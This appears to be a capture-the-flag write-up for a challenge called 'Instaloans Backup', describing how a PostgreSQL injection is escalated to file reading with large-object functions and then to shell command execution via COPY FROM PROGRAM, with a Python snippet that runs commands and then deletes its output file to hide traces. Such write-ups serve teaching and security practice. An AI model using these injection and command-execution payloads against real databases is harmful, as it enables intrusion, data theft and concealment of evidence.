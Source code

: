 # Challenge 6 - Instaloans Backup
- Solved by: @Elma, @BaeSenseii
- Flag: hli{i_HAvE_pERfoRM3d_s0M3_R3cTAl_toN51lL3cTOMY}

## Screenshot of Challenge
![alt](./images/chall-screenshot.png)

## Writeup
Based on the question, it stated that the flag is stated within the /external/backups directory of the DBMS server, which means that we somehow need to get remote code execution on the DB instance. Since we already have the initial PostgreSQL injection vulnerability, we need to find out a way as to how we can run commands on that system.

The first discovery was the ability to read files via the PostgreSQL DB service through the use of large objects (https://www.postgresql.org/docs/11/lo-funcs.html). For this to work, we need to do two things:
- Specify the file to import in the system using the lo_import() function. This will result in a Large Object ID (loid) value.
- Use the lo_get() function with the Large Object ID value to view the contents of the file (casted using the text() function). The result of this will be a long hex value, which will need to be decoded with ASCII hex in order to see the actual text.

![](./images/actf2023_c6_1.PNG)

![](./images/actf2023_c6_2.PNG)

Honestly speaking, just doing the injection alone seems to be a daunting task. So I decided to create a quick Python script to do the following steps AUTOMATICALLY:
- Register an account with the necessary details (including the SQLi payload appended into the ‘passport’ field)
- Log in with the new creds.
- View the user’s credit score to fetch the encoded file output and decode it in ASCII hex.

[Link to LFI PostgreSQL Script here](./lfi-postgres.py)

What I would just need to do in this case is just to provide the filepath of the file that I want to view, as shown in the screenshot below.

![](./images/actf2023_c6_3.PNG)

However, this doesn’t solve the problem because we have no idea what is the actual filename within the /external/backups directory that contains the flag. 

And then, i found this: https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program

Apparently there is a COPY FROM PROGRAM syntax that allows users to run commands and store the results into the database. However, since the field that we use to output the SQL injection data has a limited space, it would not be possible to return the output. BUT, it had dawned upon me to do this:
- Use the COPY FROM PROGRAM syntax to run a Linux command which will output to a file located anywhere (for this example i used /tmp/lol)
- Use the Large Object functions to read the created file.

So modifications were made on the current Python script by adding the following lines of code:

```python
# For RCE, we'll use the following:
# COPY from PROGRAM postgresql functionality that allows running of commands

rce_cmd = sys.argv[1]

sqli_postgres("; DROP TABLE IF EXISTS test; CREATE TABLE test(); COPY test from PROGRAM '"+rce_cmd+" > /tmp/lol';")
# Use the LFI capability to read the output file that contains the command output
lfi_p1 = sqli_postgres("UNION SELECT text(lo_import('/tmp/lol'))--")
lfi_p2 = sqli_postgres("UNION SELECT text(lo_get("+lfi_p1[0]+"))--")

data_lfi = ''.join([str(s) for s in lfi_p2[0]])
temp = bytes.fromhex(data_lfi[2:]).decode("ASCII")
print(temp)

# remove all evidence, don't want other competitors to know :D
sqli_postgres("; DROP TABLE IF EXISTS test; CREATE TABLE test(); COPY test from PROGRAM 'rm -rf /tmp/lol';DROP TABLE test;")

```
Since now we have a working Python RCE POC, it’s just a matter of listing the files within the /external/backups directory, and displaying the contents of the text file using the ‘cat’ command:

![](./images/actf2023_c6_5.PNG)

Here's the code reference for the PostgreSQL RCE Python script:

[Link to RCE PostgreSQL Script here](./rce-postgres.py)